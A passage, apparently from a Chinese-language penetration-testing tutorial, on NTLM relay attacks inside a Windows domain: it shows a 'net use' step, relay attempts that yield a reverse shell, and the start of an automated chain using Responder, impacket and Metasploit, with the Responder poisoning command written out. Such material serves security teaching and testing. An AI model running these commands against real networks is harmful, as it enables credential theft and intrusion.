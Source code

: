 ```plain
net use \\al1ex
```

[![](assets/1701222524-55d624e0a99da004429ed1fc66bef054.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144716-f80f1c0e-8db9-1.png)  
Step 7：之后可以看到对每台 PC 进行了转发测试，若成功则反弹 shell，总体来说效果不是很好，耗时太长了，我也不想等了。。。

[![](assets/1701222524-a9c05ca7777ae629ddd3ea074bfabd4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144731-012722e6-8dba-1.png)

##### 自动化利用

在实战中我们可以使用 Responder + impacket + MSF 来实现获取 Net-NTLM hash，并通过 ntlm 中继获得域内普通用户的 msf shell，具体步骤如下：  
Step 1：开启 Responder 监听

```plain
responder -I eth0 -r -d -w
```
